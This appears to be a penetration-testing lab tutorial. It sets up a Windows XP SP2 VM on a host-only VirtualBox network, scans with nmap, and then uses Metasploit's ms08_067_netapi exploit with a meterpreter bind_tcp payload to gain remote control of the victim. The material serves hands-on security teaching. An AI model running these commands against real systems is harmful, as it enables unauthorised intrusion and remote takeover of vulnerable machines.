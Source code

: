 Boot / Install Kali

Install Windows XP service pack 2 on a virtualbox image, and boot it.

On both the Windows VM and the Kali VM (if using Kali in a VM) click Network Settings
![](http://teachthe.net/topclipbox/2016-05-04_10-13-217I0PL4.png)

Select Host-only Adapter and hit OK.
![](http://teachthe.net/topclipbox/2016-05-04_10-45-50YUEAFM.png)

Note - if you get an "invalid setting" error, you need to go to VirtualBox -> Preferences -> Network -> Host-only Networks -> Add a new one there.

In Kali, run nmap:
```
nmap -sV 192.168.0-254.0-254
```

From this, find the victim IP address and insert it in the commands below in place of "192.168.0.103"

```shell
$ msfconsole
> use windows/smb/ms08_067_netapi
> show options
> set RHOST 192.168.0.103
> set target 0
> show payloads
> set PAYLOAD windows/meterpreter/bind_tcp
> exploit
```


Troubleshooting
- It may fail if the windows firewall is turned on
- Sometimes after one failed attempt (due to bad target) the victim's service dies and has to be rebooted before another attempt is made.